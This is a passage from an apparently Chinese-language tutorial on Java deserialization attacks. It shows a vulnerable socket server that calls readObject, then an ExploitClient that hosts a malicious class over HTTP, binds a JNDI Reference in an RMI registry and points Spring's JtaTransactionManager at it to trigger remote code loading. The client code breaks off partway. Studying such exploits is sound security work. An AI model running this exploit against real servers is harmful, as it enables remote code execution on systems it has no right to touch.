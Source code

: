 ```
                `}` catch(Exception e) `{`
                    System.out.println("Exception caught while reading object");                                    
                    e.printStackTrace();
                `}`                
            `}`
        `}` catch(Exception e) `{`
            e.printStackTrace();
        `}`
    `}`
`}`
```

**接受一个用户的输入端口，使用死循环建立一个监听Socket等待连接。当建立连接后，使用IO流将客户端发送的数据进行读取的同时调用其传输对象的readObject方法也就是反序列化方法。这就是服务端的全部内容，其实就是模拟了一个Web端的一个接口，只不过Web端的接口在被调用时自动进行了反序列化。**

### <a class="reference-link" name="%E5%88%86%E6%9E%90%E5%AE%A2%E6%88%B7%E7%AB%AF%E4%BB%A3%E7%A0%81"></a>分析客户端代码

```
import java.io.*;
import java.net.*;
import java.rmi.registry.*;
import java.util.Scanner;

import com.sun.net.httpserver.*;
import com.sun.jndi.rmi.registry.*;
import javax.naming.*;


public class ExploitClient `{`
    public static void main(String[] args) `{`
        Scanner input = new Scanner(System.in);
        try `{`
            System.out.println("请输入服务端监听地址:");
            String serverAddress=input.nextLine();
            System.out.println("请输入服务端监听端口:");
            int port = input.nextInt();
            System.out.println("请输入存放恶意类的地址:");
            String localAddress= input.next();

            System.out.println("Starting HTTP server");
            HttpServer httpServer = HttpServer.create(new InetSocketAddress(80), 0);
            httpServer.createContext("/",new HttpFileHandler());
            httpServer.setExecutor(null);
            httpServer.start();

            System.out.println("Creating RMI Registry");
            Registry registry = LocateRegistry.createRegistry(1099);
            Reference reference = new javax.naming.Reference("ExportObject","ExportObject","http://"+serverAddress+"/");
            ReferenceWrapper referenceWrapper = new com.sun.jndi.rmi.registry.ReferenceWrapper(reference);
            registry.bind("Object", referenceWrapper);

            System.out.println("Connecting to server "+serverAddress+":"+port);
            Socket socket=new Socket(serverAddress,port);
            System.out.println("Connected to server");
            String jndiAddress = "rmi://"+localAddress+":1099/Object";

            org.springframework.transaction.jta.JtaTransactionManager object = new org.springframework.transaction.jta.JtaTransactionManager();
            object.setUserTransactionName(jndiAddress);

```